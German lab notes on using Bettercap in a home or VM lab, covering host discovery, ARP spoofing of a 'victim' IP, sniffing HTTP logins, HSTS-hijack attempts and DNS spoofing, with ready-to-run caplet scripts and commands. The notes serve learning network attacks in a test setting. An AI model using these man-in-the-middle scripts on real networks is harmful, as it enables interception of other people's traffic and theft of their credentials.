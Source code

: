 ```yaml
---
title: Bettercap
subtitle: ARP spoofing, u.a.
---
```


[![bettercap](fig/logo.png)](https://www.bettercap.org/)



![image-20210816153133806](fig/image-20210816153133806.png)



Befehlsübersicht

```
>> help
...

```

auch Module werden angezeigt, Hilfe für Module:

```
>> help net.probe
>> help net.recon
```



```
192.168.178.0/24 > 192.168.178.81  » net.probe on
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [sys.log] [inf] net.probe probing 256 addresses on 192.168.178.0/24
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [endpoint.new] endpoint 192.168.178.27 detected as 28:f0:76:0c:00:d2 (Apple, Inc.).
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [endpoint.new] endpoint 192.168.178.21 detected as 00:11:32:65:91:7f (Synology Incorporated).
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [endpoint.new] endpoint 192.168.178.65 detected as 1c:91:80:bd:8d:9d (Apple, Inc.).
192.168.178.0/24 > 192.168.178.81  » [09:38:10] [endpoint.new] endpoint 192.168.178.23 detected as ac:89:95:f5:aa:91 (AzureWave Technology Inc.).
192.168.178.0/24 > 192.168.178.81  » [09:38:10] [endpoint.new] endpoint 192.168.178.22 detected as 50:1e:2d:04:dd:86 (StreamUnlimited Engineering GmbH).
192.168.178.0/24 > 192.168.178.81  » [09:38:10] [endpoint.new] endpoint 192.168.178.40 detected as 62:ff:4d:df:c2:a5.
192.168.178.0/24 > 192.168.178.81  » [09:38:12] [endpoint.new] endpoint 192.168.178.61 detected as b2:f6:30:1a:f7:1b.
192.168.178.0/24 > 192.168.178.81  » [09:38:18] [endpoint.new] endpoint 192.168.178.62 detected as 8a:42:87:22:f5:8a.
192.168.178.0/24 > 192.168.178.81  » [09:38:19] [endpoint.new] endpoint 192.168.178.59 detected as 9a:e0:c6:7b:af:cc.
192.168.178.0/24 > 192.168.178.81  »  

```

Startet auch `net.recon`

```
» net.show
... zeigt eine Tabelle aller gefundenen Hosts

```

![image-20210816154152699](fig/image-20210816154152699.png)



## ARP Spoofing mit Bettercap

```
» help arp.spoof
```

![image-20210816154450287](fig/image-20210816154450287.png)

ARP spoofing protection im Router des Netzwerklabors?!

Setzen eines Parameters:

```
» set arp.spoof.fullduplex true
» set arp.spoof.targets 10.0.2.7
```

`10.0.2.7` : IP Adresse von Victim

```
» arp.spoof on
```



## Capture Data

`net.sniff` Module

```
» help net.sniff
» net.sniff on
```

Funktioniert nicht bei https

Testen z.B. mit [http://vulnweb.com/](http://vulnweb.com/):

- [http://testhtml5.vulnweb.com/](http://testhtml5.vulnweb.com/), Login Button rechts oben
- ![image-20210817143040753](fig/image-20210817143040753.png)



## Custom Spoofing Script

caplet: text file das alle auszuführenden Kommandos enthält

`spoof.cap`:

```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.7
arp.spoof on
net.sniff on
```

```sh
$ bettercap -iface eth0 -caplet spoof.cap
```

Falls sich am Netzwerk viel tut: `net.sniff` filter [[*](https://www.bettercap.org/modules/ethernet/net.sniff/)], [[Berkeley Packet Filter (BPF)](https://biot.com/capstats/bpf.html)]

```
set net.sniff.filter host 224.0.0.251 and port 5353
```

In der Doku sind quotes um den Filter Ausdruck  `"host ..."` – mit diesen funktionierts aber nicht. 



## HTTPS

`hstshijack-v2.0` caplets mit Änderungen von Zaid. Original ist im Lieferumfang von Bettercap (Folder in `/usr/share/bettercap/caplets`). [Github page von HSTShijack](https://github.com/bettercap/caplets/tree/master/hstshijack)

`spoof.cap`:

Zeile `set net.sniff.local true` ergänzen:

```
# betterCAP caplet file
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.7
arp.spoof on
set net.sniff.local true
net.sniff on
```



```sh
$ bettercap -iface eth0 -caplet spoof.cap
```

 Alle caplets von bettercap anzeigen:

```
» caplets.show
```

![image-20210817145511600](fig/image-20210817145511600.png)



```
» hstshijack/hstshijack
```

TAB auto-completion!



Chrome Delete Browser Cache:

Ctrl-Shift-Del >> (All time) >> "Clear data"

Versuch mit linkedin.com (und weiteren Seiten) hat nicht funktioniert (17.08.2021). Die geänderte Version von Zaid wurde nicht getestet, dabei wird NAT verwendet (Bridged bei diesem Test!)

Allgemein: das `hstshijack` caplet funktioniert nicht mit HSTS Websites. Werden als https geladen.



# DNS Spoofing

Umleiten auf eine eigene Web-Site

mit `dns.spoof` Module:

```
» help dns.spoof
» set dns.spoof.all true
» set dns.spoof.domains zsecurity.org,*.zsecurity.org
» dns.spoof on
```



# Tests mit NAT

```
# Kali 192.168.126.2
# Win  192.168.126.3
```



```
# test.cap
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.126.3
arp.spoof on
net.sniff on
# DNS Spoofing
set dns.spoof.all true
set dns.spoof.domains zsecurity.org,*.zsecurity.org
dns.spoof on
```



```
$ service apache2 start
$ bettercap -iface eth0 -caplet test.cap
```

Funktioniert wenn beide VMs auf NAT eingestellt sind!

Etwas Wartezeit nach dem Starten des DNS Spoofers und evtl. den Browser neu starten.

![image-20210823124406883](fig/image-20210823124406883.png)
